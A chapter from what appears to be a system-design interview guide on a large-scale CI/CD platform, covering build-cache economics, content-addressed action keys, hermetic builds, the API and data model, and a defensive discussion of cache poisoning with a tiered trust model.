







# 39 — CI/CD Platform at Scale

<span class="pill pill-core">Core</span> <span class="pill pill-hard">Hard</span>

**A CI/CD platform is a distributed cache with a scheduler bolted on. Everything that makes it fast — incremental builds, remote caching, shared runners — also makes it a single, extremely attractive target: the one system that has write access to production and executes untrusted code from every engineer in the company.**

| | |
|---|---|
| **Commonly asked at** | Google, Meta, Microsoft, Amazon, Stripe, Datadog, Shopify, GitLab, CircleCI, Uber, any developer-productivity or platform org |
| **Time budget** | 45 min |
| **Core tension** | Speed at scale requires aggressive sharing — one content-addressed cache and one runner fleet across every team — but sharing is exactly what turns a single poisoned cache entry or one compromised job into a company-wide supply-chain compromise, and the isolation that prevents it is the same isolation that destroys your cache hit ratio |
| **Prerequisites** | [F04 Caching](../fundamentals/f04-caching.md), [F11 Idempotency](../fundamentals/f11-idempotency.md), [F12 Queues & Streams](../fundamentals/f12-queues-streams.md), [F15 Object & Blob Storage](../fundamentals/f15-object-storage.md), [F17 Rate Limiting & Load Shedding](../fundamentals/f17-rate-limiting-load-shedding.md), [F18 Resilience Patterns](../fundamentals/f18-resilience-patterns.md), [F21 Probabilistic Structures](../fundamentals/f21-probabilistic-data-structures.md), [F22 Observability Fundamentals](../fundamentals/f22-observability-fundamentals.md), [F24 Capacity Planning](../fundamentals/f24-capacity-planning.md), [F25 Deployment & Release Safety](../fundamentals/f25-deployment-release-safety.md), [F27 Security in Design](../fundamentals/f27-security-design.md), [F28 Cost Engineering](../fundamentals/f28-cost-engineering.md) |

---

## 1. Problem Statement

Build the system that takes every commit from 10,000 engineers across 5,000 repositories, builds it, tests it, produces signed artifacts, and delivers them to production — with a feedback latency short enough that developers stay in flow and a security posture strong enough that the platform is not the easiest path into production for an attacker.

Two reframings separate a real design from a naive one.

**First: CI is a caching problem, not a compute problem.** A naive platform runs `make && make test` in a container. That works for one repo and collapses in a monorepo with 200,000 build targets, where a full build is 167 CPU-hours. The entire game is computing, for every commit, the minimal set of work that actually needs redoing — which means modelling the build as a DAG of *actions* with content-addressed keys, and making a cache lookup the default outcome. At a 97% hit rate a build takes five minutes; at 90% it takes sixteen; at 0% it takes three hours. Those are the same system with a different hit ratio.

**Second: CD is a security boundary, not a deployment script.** The pipeline holds credentials that can deploy to production, it executes code from pull requests, and it publishes artifacts that thousands of machines trust. SolarWinds compromised a build server, not a source repository. The attacker did not need to commit anything. Any design that treats the pipeline as internal tooling rather than as tier-0 production infrastructure has missed the actual threat model.

### Out of scope

The build tool's own language-specific frontends (how a compiler is invoked), package-manager internals, the deployment target's runtime (covered in the orchestrator design), and IDE/local developer tooling except where it shares the cache.

---

## 2. Requirements

### Functional

| # | Requirement | Notes |
|---|---|---|
| F1 | Trigger pipelines on push, PR, tag, schedule, manual, API | Plus upstream artifact publication |
| F2 | Declarative pipeline definition versioned with the code | Config-as-code, reviewed like code |
| F3 | Build graph with incremental and remote caching | Content-addressed action cache |
| F4 | Distributed execution across a shared runner fleet | Heterogeneous: CPU class, OS, GPU, large-memory |
| F5 | Artifact storage with dedup, immutability and retention | Content-addressed, with promotion between channels |
| F6 | Test result ingestion, history, flake detection, quarantine | Across thousands of suites |
| F7 | Deployment orchestration with progressive delivery hooks | Canary, wait-for-health, automated rollback |
| F8 | Provenance generation and artifact signing | SLSA build level 3 |
| F9 | Secret injection scoped to job, with no persistence | Preferably short-lived federated tokens |
| F10 | Fair scheduling across thousands of competing tenants | Plus priority for release-blocking work |

### Non-functional

| # | Requirement | Target |
|---|---|---|
| N1 | Scale | 5,000 repos, 10,000 engineers, 20,000 pipeline runs/day, 200,000 build targets in the monorepo |
| N2 | PR feedback latency (p50 / p95) | < 5 min / < 15 min |
| N3 | Queue wait time before a job starts | p95 < 30 s |
| N4 | Remote cache hit ratio | > 97% on incremental builds |
| N5 | Cache read latency | p99 < 50 ms for metadata, < 500 ms for a 10 MiB blob |
| N6 | Pipeline availability | 99.9% (it gates all shipping) |
| N7 | Build reproducibility | Byte-identical outputs for identical inputs, > 99.9% of actions |
| N8 | Green-build rate on trunk | > 95% (flakes make this the hardest target) |
| N9 | Provenance coverage | 100% of artifacts deployed to production |
| N10 | Secret leakage to logs or artifacts | Zero, alarmed on any detection |

!!! note "N2 and N8 are the two numbers the business feels"
    Feedback latency is the developer-productivity metric: 10,000 engineers waiting an extra 10 minutes per PR, at 3 PRs each per day, is 5,000 engineer-hours a week. Green-build rate is the *trust* metric — the moment developers learn that a red build is probably a flake, they stop reading build failures, and the pipeline has stopped functioning as a quality gate even though every dashboard is green. §7.6 shows why N8 is mathematically brutal at this test count.

---

## 3. Scale Estimation

### Build cache economics — the load-bearing calculation

Monorepo with $N = 200{,}000$ build actions, mean action wall time $t = 3$ s, per-build parallelism $P = 64$, remote cache hit ratio $h$:

$$
T_{\text{build}} = \frac{N \,(1-h)\, t}{P}
$$

| $h$ | Actions executed | Wall time | Developer experience |
|---|---|---|---|
| 0.00 | 200,000 | 9,375 s (2 h 36 m) | Unusable |
| 0.50 | 100,000 | 4,688 s (1 h 18 m) | Unusable |
| 0.90 | 20,000 | 937 s (15.6 m) | Painful |
| 0.97 | 6,000 | 281 s (4.7 m) | Acceptable |
| 0.99 | 2,000 | 94 s (1.6 m) | Good |
| 0.995 | 1,000 | 47 s | Excellent |

**The last two points of hit ratio are worth more than the first ninety.** Moving 0.90 to 0.97 saves 11 minutes; moving 0.97 to 0.99 saves another 3 minutes, but proportionally it is a 3x speedup. Every design decision that costs hit ratio — per-team cache partitioning, a volatile timestamp embedded in a binary, a non-hermetic toolchain — must be priced against this table.

There is a floor. The DAG has a critical path of depth $D \approx 40$ levels:

$$
T_{\min} = D \times t = 120\ \text{s}
$$

So at $h = 0.99$ you are already latency-bound on the critical path rather than throughput-bound on executor count. **Past that point, adding executors does nothing and the only remaining lever is restructuring the dependency graph** — which is an architecture problem in the codebase, not an infrastructure problem.

### Compute cost as a function of hit ratio

A typical PR build rebuilds the reverse-dependency closure of the changed targets, roughly 2,000 actions at $h = 0.97$:

$$
\begin{aligned}
\text{CPU per run} &= 2{,}000 \times 3\ \text{s} = 6{,}000\ \text{CPU-s} = 1.67\ \text{CPU-h} \\
\text{daily CPU} &= 20{,}000 \times 1.67 = 33{,}400\ \text{CPU-h/day} \\
\text{steady cores} &= \frac{33{,}400}{24} \approx 1{,}390\ \text{cores} \\
\text{annual cost} &\approx 33{,}400 \times \$0.035 \times 365 \approx \$427\text{k}
\end{aligned}
$$

Drop the hit ratio to 0.90 and the closure grows to ~6,700 actions:

$$
\$427\text{k} \times 3.35 \approx \$1.43\text{M/year}
$$

**A seven-point drop in cache hit ratio costs a million dollars a year and fifteen minutes per developer per build.** That is the number to put in front of whoever wants to add a build-time timestamp.

### Cache and artifact storage

$$
\begin{aligned}
\text{CAS writes/day} &= 20{,}000\ \text{runs} \times 2{,}000\ \text{actions} \times 2\ \text{MiB} = 80\ \text{TiB raw} \\
\text{unique fraction} &\approx 8\% \quad (\text{most outputs recur across runs}) \\
\text{unique/day} &\approx 6.4\ \text{TiB} \\
\text{at 14-day TTL} &\approx 90\ \text{TiB} \\
\text{action cache entries/day} &= 40 \times 10^{6} \times 200\ \text{B} = 8\ \text{GB/day}
\end{aligned}
$$

Read bandwidth, assuming each run materialises ~4 GiB of cached outputs:

$$
\frac{20{,}000 \times 4\ \text{GiB}}{86{,}400\ \text{s}} \approx 925\ \text{MiB/s mean},\quad \approx 3\ \text{GiB/s peak}
$$

That is a serious storage system in its own right, and it motivates **"builds without the bytes"**: intermediate outputs stay in the CAS as digests, and only the final requested artifacts are downloaded to the client. On a large monorepo that cuts egress by 90% or more.

### Runner fleet sizing (Little's law)

$$
L = \lambda W
$$

With 20,000 jobs/day, 60% arriving in a 6-hour window:

$$
\lambda_{\text{peak}} = \frac{20{,}000 \times 0.6}{6 \times 3600} = 0.55\ \text{jobs/s}, \quad W = 360\ \text{s} \implies L = 200\ \text{concurrent runners}
$$

At 8 vCPU per runner that is 1,600 vCPU at peak and roughly 320 vCPU at trough — a **5:1 diurnal swing**, which is the entire argument for autoscaling the fleet.

### Cold start versus warm pool

| Phase | Cold VM | Warm pool |
|---|---|---|
| Instance provision + boot | 45 s | 0 |
| Agent start + registration | 10 s | 0 |
| Container image pull (2 GiB toolchain) | 50 s | 0 (pre-pulled) |
| Repo clone / workspace materialise | 30 s | 3 s (warm git cache) |
| **Total** | **135 s** | **3 s** |

$$
\text{daily queue delay saved} = 20{,}000 \times 132\ \text{s} = 2.64 \times 10^{6}\ \text{s} = 733\ \text{engineer-hours/day of waiting}
$$

Cost of keeping the pool warm at the trough size of 40 runners, 24/7:

$$
40 \times 8\ \text{vCPU} \times \$0.04 \times 24 = \$307/\text{day} \approx \$112\text{k/year}
$$

**$112k buys back 733 hours a day of engineer wait time.** That arithmetic ends the debate, and it is exactly the argument to rehearse in an interview: the warm pool is not a nice-to-have, it is the single cheapest latency improvement available.

---

## 4. API Design

```text
POST   /v1/pipelines/{repo}/runs                 trigger (idempotent on commit+config hash)
GET    /v1/runs/{run_id}                         status, DAG state, timings
GET    /v1/runs/{run_id}/logs?job={j}&follow=1   streaming logs
POST   /v1/runs/{run_id}/cancel
POST   /v1/runs/{run_id}/approve                 manual gate

# Remote execution / caching (Bazel Remote Execution API shape)
GET    /v2/{instance}/actionresults/{hash}/{size}      ActionCache lookup
PUT    /v2/{instance}/actionresults/{hash}/{size}      ActionCache write
POST   /v2/{instance}/blobs:findMissing                CAS existence batch check
GET    /v2/{instance}/blobs/{hash}/{size}              CAS read
POST   /v2/{instance}/actions:execute                  remote execution (streaming)

# Artifacts
POST   /v1/artifacts                             upload by digest, immutable
GET    /v1/artifacts/{digest}
POST   /v1/artifacts/{digest}/promote            dev -> staging -> prod channel
GET    /v1/artifacts/{digest}/provenance         in-toto attestation bundle
GET    /v1/artifacts/{digest}/sbom

# Test intelligence
POST   /v1/tests/results                         ingest junit-shaped results
GET    /v1/tests/{target}/flakiness              rolling flake rate + history
POST   /v1/tests/{target}/quarantine             move out of the blocking set
```

The critical API property is **idempotency by content**. A run is keyed on `(repo, commit_sha, pipeline_config_hash, trigger_kind)`. Re-triggering the same tuple returns the existing run rather than starting a second one, which is what makes webhook retries, CI-bot double-fires and user impatience harmless. See [F11 Idempotency](../fundamentals/f11-idempotency.md).

```yaml
# .ci/pipeline.yaml — versioned with the code, reviewed like code
version: 2
defaults:
  runner:
    class: standard-8       # 8 vCPU, 32 GiB, ephemeral, no docker socket
    timeout: 30m
  retry:
    max: 2
    on: [infrastructure_error]      # NEVER retry on test_failure: that hides flakes

jobs:
  build:
    runner: { class: build-32 }
    steps:
      - uses: checkout@v3
        with: { depth: 1, submodules: false }
      - run: bazel build --remote_cache=grpcs://cache.ci.internal //...
    outputs:
      - artifact: bazel-bin/service/image.tar
        digest_algo: sha256

  test:
    needs: [build]
    parallelism: 40                  # sharded by historical duration, not by name
    steps:
      - run: bazel test --flaky_test_attempts=1 //...
    test_reports: [bazel-testlogs/**/test.xml]

  publish:
    needs: [test]
    if: branch == 'main'
    permissions:
      id_token: write                # OIDC federation, not a stored secret
      artifacts: write
    steps:
      - uses: slsa-provenance@v2
      - uses: cosign-sign@v2
        with: { keyless: true }

  deploy_canary:
    needs: [publish]
    environment: production          # gated: requires approval + protected branch
    strategy:
      progressive:
        steps: [1%, 10%, 50%, 100%]
        bake_time: 10m
        promote_on:  { slo: checkout_availability, min: 99.9 }
        rollback_on: { slo: checkout_availability, below: 99.5, for: 2m }
```

!!! warning "`retry: on: [test_failure]` is the most damaging line you can write"
    It converts every flake into a green build, which removes all pressure to fix flakes, which raises the flake rate, which requires more retries. Within a year the test suite is noise and nobody can tell a real regression from a retry that happened to succeed. Retry **infrastructure** errors (runner preempted, network timeout to the cache, image pull failure) automatically and invisibly. Retry **test** failures only in a dedicated flake-detection lane whose sole purpose is to record the divergence — never to turn the build green. §7.6 makes this mechanical.

---

## 5. Data Model

```sql
-- A run is the execution of one pipeline config at one commit.
CREATE TABLE pipeline_run (
  run_id            BIGINT PRIMARY KEY,
  repo_id           BIGINT NOT NULL,
  commit_sha        BYTEA  NOT NULL,
  config_hash       BYTEA  NOT NULL,      -- hash of the resolved pipeline yaml
  trigger_kind      SMALLINT NOT NULL,    -- push | pr | tag | schedule | api
  tenant_id         BIGINT NOT NULL,      -- fairness + chargeback unit
  priority_class    SMALLINT NOT NULL,    -- release > trunk > pr > scheduled
  state             SMALLINT NOT NULL,
  queued_at         TIMESTAMPTZ NOT NULL,
  started_at        TIMESTAMPTZ,
  finished_at       TIMESTAMPTZ,
  UNIQUE (repo_id, commit_sha, config_hash, trigger_kind)   -- idempotency key
);

-- One row per action in the build graph. This is the big table.
CREATE TABLE action (
  action_digest     BYTEA PRIMARY KEY,    -- sha256 of the canonical Action proto
  command_digest    BYTEA NOT NULL,
  input_root_digest BYTEA NOT NULL,       -- Merkle root of the input tree
  platform_digest   BYTEA NOT NULL,       -- container image + cpu arch + os
  first_seen_at     TIMESTAMPTZ NOT NULL
);

-- The Action Cache: action -> result. The thing that makes builds fast.
CREATE TABLE action_result (
  action_digest     BYTEA PRIMARY KEY,
  exit_code         INT NOT NULL,
  output_files      JSONB NOT NULL,       -- [{path, cas_digest, size, is_exec}]
  stdout_digest     BYTEA,
  stderr_digest     BYTEA,
  worker_id         TEXT NOT NULL,        -- provenance: who produced this
  executed_at       TIMESTAMPTZ NOT NULL,
  wall_ms           INT NOT NULL,
  trust_tier        SMALLINT NOT NULL     -- 0=trusted-builder 1=untrusted, see 7.3
);

-- Content-addressed store. Immutable by construction.
CREATE TABLE cas_blob (
  digest            BYTEA PRIMARY KEY,    -- sha256 of content
  size_bytes        BIGINT NOT NULL,
  storage_class     SMALLINT NOT NULL,    -- hot | warm | archive
  last_accessed_at  TIMESTAMPTZ NOT NULL, -- LRU eviction driver
  refcount_hint     INT                   -- hint only; GC is mark-and-sweep
);

-- Published artifacts and their supply-chain metadata.
CREATE TABLE artifact (
  digest            BYTEA PRIMARY KEY,
  name              TEXT NOT NULL,
  media_type        TEXT NOT NULL,
  produced_by_run   BIGINT NOT NULL REFERENCES pipeline_run(run_id),
  provenance_digest BYTEA,                -- in-toto attestation in the CAS
  sbom_digest       BYTEA,
  signature         BYTEA,                -- cosign / sigstore bundle
  channel           SMALLINT NOT NULL,    -- dev | staging | prod
  immutable_until   TIMESTAMPTZ NOT NULL  -- retention lock
);

-- Test executions. High volume; this drives flake detection.
CREATE TABLE test_execution (
  target_id         BIGINT NOT NULL,
  run_id            BIGINT NOT NULL,
  action_digest     BYTEA  NOT NULL,      -- identical digest => identical inputs
  attempt           SMALLINT NOT NULL,
  outcome           SMALLINT NOT NULL,    -- pass | fail | error | timeout | skip
  duration_ms       INT NOT NULL,
  shard_index       SMALLINT,
  PRIMARY KEY (target_id, run_id, attempt)
);

CREATE TABLE test_target_state (
  target_id         BIGINT PRIMARY KEY,
  flake_rate_7d     REAL NOT NULL,        -- divergent outcomes / executions
  quarantined       BOOLEAN NOT NULL,
  quarantined_at    TIMESTAMPTZ,
  owner_team        TEXT NOT NULL,        -- quarantine without an owner is deletion
  quarantine_expires TIMESTAMPTZ          -- forced re-evaluation; no permanent exile
);

-- Tenant fairness accounting.
CREATE TABLE tenant_usage (
  tenant_id         BIGINT NOT NULL,
  window_start      TIMESTAMPTZ NOT NULL,
  cpu_seconds_used  BIGINT NOT NULL,
  weight            REAL NOT NULL,        -- fair-share weight
  jobs_queued       INT NOT NULL,
  PRIMARY KEY (tenant_id, window_start)
);
```

Two structural points:

**`action_digest` is the whole design in one column.** It is the hash of a canonical protobuf containing the command line, the Merkle root of every input file, the environment variables, and the platform (container image digest, CPU architecture, OS). If two actions anywhere in the company have the same digest, they *must* produce the same output — and that assertion is simultaneously the caching mechanism, the reproducibility definition, and the flake-detection oracle.

**`test_execution.action_digest`** is the link between hermeticity and flake detection: two executions with the same action digest that produced different outcomes are, by definition, a flake. No statistical inference needed. §7.6.

---

## 6. High-Level Architecture



### The build graph



Change `src/b.go` and the invalidated set is exactly the transitive reverse-dependency closure: `compile b`, `unit test b`, `link binary`, `build image`, `integration test`, `publish`. **`compile a`, `compile c` and `unit test a` are cache hits, and crucially they are hits even if nobody in the company has ever built this branch** — because the action digest depends on inputs, not on branch, and someone built that exact action on main yesterday.

### Write path: a push arrives



Note the batch lookup: **194,000 cache hits are resolved in one round trip**, not 194,000. A per-action lookup at 5 ms RTT would cost 16 minutes of pure latency and would make the cache slower than rebuilding.

### Read path: a developer opens the run page

Run state, DAG topology, per-action timings and log tails are served from a read replica of the control-plane database plus an object-store-backed log store. Logs stream over a server-sent-events channel while the job runs and are sealed into the CAS when it finishes. The important property: **the run page must remain available when the execution tier is degraded**, because the first thing a developer does when builds are slow is refresh the run page, and a status API that falls over under that load turns a degradation into an outage.

---

## 7. Deep Dives

### 7.1 Content-addressed action keys and what belongs in the hash

The cache key is the hash of everything that can affect the output:

```python
# Canonical, order-stable, and complete. Anything omitted is a correctness bug;
# anything extra that varies per-run is a hit-ratio bug.
def action_digest(action) -> bytes:
    return sha256(canonical_proto({
        "command": {
            "arguments":   action.argv,                # exact argv, ordered
            "environment": sorted(action.allowed_env), # ALLOW-LIST only
            "output_paths": sorted(action.outputs),
        },
        "input_root":   merkle_root(action.inputs),    # digest of every input file
        "platform": {
            "container_image": action.image_digest,    # digest, never a tag
            "cpu_arch":  action.arch,
            "os_family": action.os,
            "isa_extensions": sorted(action.isa),      # AVX-512 changes codegen
        },
        "timeout_ms":   action.timeout_ms,
    }))
```

The **Merkle input root** is what makes this scale. Hashing every input file individually and combining them would be $O(\text{files})$ per action; a Merkle tree over directories means an unchanged subtree contributes one already-known digest, so recomputing the root after a one-file change is $O(\log)$ in tree depth. It also makes `findMissing` efficient: the worker asks "do you have this directory digest?" and a hit short-circuits the entire subtree.

**What must be in the key and is routinely forgotten:**

| Input | Consequence of omission |
|---|---|
| Container image **digest**, not tag | A rebuilt `:latest` silently changes the toolchain; cache returns outputs from the old compiler |
| CPU ISA extensions | A worker with AVX-512 produces different codegen; the binary crashes on older workers |
| Compiler and linker versions | Same as above, with subtler symptoms |
| Locale, timezone, umask | Affects sort order in generated files, file permissions in archives |
| The full transitive toolchain | A patch to a shared build macro invalidates everything downstream — correctly |

**What must be excluded, or the hit ratio dies:**

| Excluded | Why |
|---|---|
| Build timestamp, `__DATE__`, `__TIME__` | Guarantees a unique output every build; destroys reproducibility |
| Absolute paths of the workspace | `/home/alice/repo` vs `/build/w7` makes every developer's cache disjoint |
| Hostname, build number, CI run id | Same |
| Git commit SHA (in general) | Embedding it in every binary makes every commit a full rebuild. Inject it at the final link/package step only, into one small target |
| Unfiltered environment variables | An allow-list, never a deny-list — one stray `RANDOM_SEED` poisons everything |

!!! example "The cost of one timestamp"
    A team adds `-DBUILD_TIME=$(date)` to a widely-used compilation flag. Every action that transitively depends on it now has a unique digest on every build. If that flag reaches 40% of the graph, the hit ratio drops from 0.99 to 0.59 and build time goes from 94 s to 3,800 s. Using §3's cost model, the compute bill roughly multiplies by forty. **This is a one-line change with a seven-figure annual cost, and it will be found by nobody unless you alarm on cache hit ratio per target pattern.**

### 7.2 Hermeticity: why non-hermetic builds cannot be fixed by retries

A **hermetic** action declares all of its inputs and depends on nothing else. In practice that means the sandbox gives the action a filesystem containing exactly its declared input tree, a fixed environment, no network, a fixed user and umask, and a normalised clock and path.

The failure mode of non-hermeticity is not "wrong answers", it is **wrong cache hits**, which is far worse:



That path produces a green build containing an artifact built from inputs nobody has seen. It is undetectable by testing, because the tests also came out of the cache.

The five leaks that cause it, in frequency order:

1. **Network access during the build.** `pip install`, `go get`, `curl`. The remote package's content is an input that is not in the digest. Fix: fully vendored or lockfile-pinned dependencies resolved by a *separate*, explicitly-versioned action; deny network in the sandbox by default, with a documented allow-list for the few actions that legitimately fetch (and those must pin by digest).
2. **Reading system state.** `/usr/include`, the system compiler, `~/.gradle`, a globally-installed SDK. Fix: the toolchain is an input, delivered as a CAS blob or a pinned container image digest.
3. **Environment variable pass-through.** Fix: strict allow-list.
4. **Wall-clock and randomness.** Timestamps in archives, random test ports, `ORDER BY` without a key, hash-map iteration order in generated code. Fix: normalise `SOURCE_DATE_EPOCH`, fixed umask, sorted outputs, seeded randomness.
5. **Absolute paths leaking into outputs.** Debug info, `__FILE__`, RPATHs. Fix: path remapping flags (`-ffile-prefix-map`, `-trimpath`) so the output is path-independent.

**Reproducibility is verified, not assumed.** Run a random sample of actions twice on different workers and byte-compare:

$$
\text{reproducibility rate} = \frac{\text{actions with identical output digests}}{\text{actions sampled}} \quad \text{target} > 99.9\%
$$

This is a continuously-running background job, and every divergence is a bug with a named owner. Without it, hermeticity degrades silently — one non-hermetic action added per sprint, each individually harmless, until "works on my machine" is the dominant class of build failure and nobody can point at when it started.

### 7.3 Cache poisoning: the shared cache is a shared trust boundary

The remote cache is a key-value store where **any writer can claim "the output of action X is Y"**. If a pull-request build can write to the cache that trunk builds read from, then anyone who can open a pull request can inject arbitrary bytes into a production binary.

The attack is concrete and cheap:

```mermaid
sequenceDiagram
    participant A as Attacker
    participant PR as "PR runner"
    participant C as "Shared cache"
    participant M as "Main build"
    participant P as Production
    A->>PR: "open PR: modify build script"
    PR->>PR: "compute digest of a REAL trunk action"
    PR->>C: "write ActionResult: digest -> malicious binary"
    Note over A,PR: "PR is never merged; it is closed"
    M->>C: "lookup that digest during trunk build"
    C-->>M: "cache HIT: malicious binary"
    M->>P: "sign and deploy"
```

No commit to main, no code review bypass, no compromised credential. Just a PR that ran once.

**The isolation model that fixes it:**

| Tier | Reads from | Writes to | Rationale |
|---|---|---|---|
| Trusted builders (trunk, release) | Trusted CAS | **Trusted CAS** | Only code that has passed review produces trusted outputs |
| PR / fork builds | Trusted CAS (read-only) + own scoped cache | **Own scoped cache only** | Full hit-ratio benefit on unchanged targets; zero write access to shared state |
| Developer workstations | Trusted CAS (read-only) | Nothing, or a personal namespace | Same |

This is the design that preserves the economics: PR builds still get 97%+ hit ratios because they *read* the trusted cache, they simply cannot write to it. The cost is that a PR's own new outputs are not shared with other PRs, which is a small loss, and it is the right trade.

Additional layers:

- **Signed cache entries.** The `ActionResult` carries a signature from the worker that produced it, and readers verify. Prevents a compromised cache *storage* layer from injecting entries, which the tiering alone does not.
